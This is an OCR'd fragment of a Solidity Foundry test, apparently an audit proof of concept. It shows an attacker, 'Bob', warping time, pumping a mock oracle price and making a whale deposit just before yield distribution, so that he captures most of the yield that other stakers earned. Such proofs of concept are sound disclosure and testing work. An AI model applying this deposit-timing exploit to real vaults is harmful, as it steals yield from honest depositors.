 ```solidity
        console.log("Time advanced by:", timeToWait, "seconds (~29 days)");

        // Simulate significant price appreciation
        uint256 initialPrice = oracleContract.fetchPrice();
        console.log("Initial oracle price:", initialPrice);

        // Generate 10% price appreciation (1000 * 0.01 = 10)
        for(uint256 i = 0; i < 1000; i++) {
            oracleContract.setPrice();
        }

        uint256 appreciatedPrice = oracleContract.fetchPrice();
        console.log("Final oracle price:", appreciatedPrice);
        console.log("Price appreciation:", ((appreciatedPrice - initialPrice) * 100) / initialPrice, "%");

        // Step 3: Bob monitors and deposits just before yield distribution window
        console.log("--- Step 3: Bob monitors yield distribution window ---");

        // Bob waits until yield can be distributed
        vm.warp(block.timestamp + 86401); // Now at yieldDuration exactly
        console.log("Advanced to yield distribution window");

        // Bob deposits whale amount right before distribution
        vm.startPrank(admin);
        token.mintVal(bob, bobDeposit);
        vm.stopPrank();

        vm.startPrank(bob);
        token.approve(address(vaultContract), bobDeposit);
        uint256 bobNftId = issuerContract.deposit(bobDeposit);
        vm.stopPrank();

        console.log("Bob's NFT ID:", bobNftId);
        console.log("Bob deposits 100x more capital than Alice:", bobDeposit);

        // Step 4: Check distribution ratios before yield distribution
        console.log("--- Step 4: Analyzing stake distribution ---");

        (uint256 aliceStake,,,) = yieldDistributorContract.stakingData(aliceNftId);
        (uint256 bobStake,,,) = yieldDistributorContract.stakingData(bobNftId);
        uint256 totalStake = yieldDistributorContract.totalSupply();

        console.log("Alice stake:", aliceStake);
        console.log("Bob stake:", bobStake);
        console.log("Total stake:", totalStake);

        uint256 aliceSharePct = (aliceStake * 100) / totalStake;
        uint256 bobSharePct = (bobStake * 100) / totalStake;
        console.log("Alice will receive:", aliceSharePct, "% of yield");
        console.log("Bob will receive:", bobSharePct, "% of yield");

        // Step 5: Trigger yield distribution
        console.log("--- Phase 5: Yield Distribution ---");

        uint256 expectedYield = vaultContract.CalculatePriceDifferentiation();
        console.log("Expected yield amount:", expectedYield);

        if (expectedYield > 0) {
            // Treasury distributes yield
            vm.prank(treasury);
            vaultContract.distributeYield();

```